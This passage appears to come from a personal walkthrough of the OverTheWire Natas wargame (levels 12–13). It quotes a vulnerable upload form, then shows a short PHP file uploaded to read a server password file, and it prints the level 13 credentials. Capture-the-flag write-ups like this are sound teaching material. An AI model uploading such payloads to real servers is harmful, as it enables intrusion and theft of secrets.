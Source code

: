 ```php
} else { 
?> 

<form enctype="multipart/form-data" action="index.php" method="POST"> 
<input type="hidden" name="MAX_FILE_SIZE" value="1000" /> 
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" /> 
Choose a JPEG to upload (max 1KB):<br/> 
<input name="uploadedfile" type="file" /><br /> 
<input type="submit" value="Upload File" /> 
</form> 
<? } ?> 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div> 
</div> 
</body> 
</html> 
```

Time for a Path Traversal attack c: 
https://www.owasp.org/index.php/Path_Traversal

after a long amount of trouble I figured out that this was not the way to go, so I switched to just uploading a .php file.

```
<?php
$myfile = fopen("/etc/natas_webpass/natas13", "r") or die("Unable to open file!");
echo fread($myfile,filesize("/etc/natas_webpass/natas13"));
fclose($myfile);
?>
```


## level 13

addres:   http://natas13.natas.labs.overthewire.org/
username: natas13
password: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

nother php

```php
<html> 
<head> 
<!-- This stuff in the header has nothing to do with the level --> 
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css"> 
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" /> 
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" /> 
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script> 
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script> 
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script> 
<script>var wechallinfo = { "level": "natas13", "pass": "<censored>" };</script></head> 
<body> 
<h1>natas13</h1> 
<div id="content"> 
For security reasons, we now only accept image files!<br/><br/> 

<?  

function genRandomString() { 
    $length = 10; 
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz"; 
    $string = "";     

    for ($p = 0; $p < $length; $p++) { 
        $string .= $characters[mt_rand(0, strlen($characters)-1)]; 
```